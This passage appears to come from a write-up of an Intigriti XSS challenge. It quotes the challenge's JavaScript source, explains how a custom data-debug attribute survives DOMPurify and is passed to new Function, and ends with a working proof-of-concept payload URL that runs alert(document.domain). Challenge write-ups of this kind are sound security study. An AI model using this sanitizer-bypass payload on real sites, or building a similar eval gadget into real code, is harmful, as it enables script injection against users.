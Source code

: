 ```js

      I0xB(child);
    }
  }

  function I0x12(htmlObj) { //sanitizeHTML
    htmlObj['__html'] = DOMPurify['sanitize'](htmlObj['__html']); //sanitize our input

    let template = document['createElement']('template');

    template["InnerHTML"] = htmlObj['__html'];
    document['body']['appendChild'](template); //append the template with our input to the page

    template = document['getElementsByTagName']('template')[0]; //get template
    I0xB(template['content']); //handle the template content (our sanitized payload)

    document['body']['removeChild']('template');

    return htmlObj;
  }

  return (
    <div className="App">
      <h1>Here is the result!<\/h1>
      <div id="viewer-container" dangerouslySetInnerHTML={I0x12(payloadFromUrl)}><\/div>
    <\/div>
  );
}

export default I0x1;
```

As we can see, the sanitize function **I0x12** does everything right besides calling **I0xB** with our sanitized payload. In the **I0xB** the content of **data-debug** attribute of our html tags is passed to **new Function** and instantly executes. Passing **\<img data-debug=alert(document.domain)>** would result in executing our alert: **new Function(alert(document.domain))()**. Despite the payload is being sanitized, the **data-debug** is a custom tag and therefore is not filtered by dompurify.

My solution:
```
https://challenge-0122-challenge.intigriti.io/result?payload=<img+data-debug=alert(document.domain)>
```